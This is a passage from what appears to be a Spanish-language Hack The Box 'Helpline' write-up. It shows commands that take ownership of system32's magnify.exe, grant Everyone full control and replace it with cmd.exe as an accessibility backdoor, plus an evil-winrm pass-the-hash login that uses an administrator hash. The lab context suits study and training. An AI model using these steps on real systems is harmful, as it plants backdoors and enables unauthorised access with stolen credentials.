 
Estando en la carpeta `system32` copiamos el cmd.exe y lo guardamos como magnify.exe *pero con encontramos con otra sorpresa* :heart_eyes: :heart_eyes:
```bash
C:\Windows\system32>copy cmd.exe magnify.exe  
Overwrite magnify.exe? (Yes/No/All): YES  
'Access is denied.\r\n'        0 file(s) copied.
```
No tenemos permisos para tocar el archivo. Tomamos el control de el de la siguiente manera 
```bash
C:\Windows\system32>takeown /f magnify.exe  
SUCCESS: The file (or folder): "C:\Windows\system32\magnify.exe" now owned by user "HTB\HELPLINE$".

C:\Windows\system32>icacls magnify.exe /grant "Everyone":F  
processed file: magnify.exe  
Successfully processed 1 files; Failed processing 0 files

C:\Windows\system32>copy cmd.exe magnify.exe
```
Nota: Aveces psexec da error al ejecutar estos comandos si no funciona usar evil-winrm 
`evil-winrm -i 10.10.10.132 -u administrator -H d5312b245d641b3fae0d07493a022622`
<img src="/assets/htb/helpline/Pasted image 20211106002328.png">

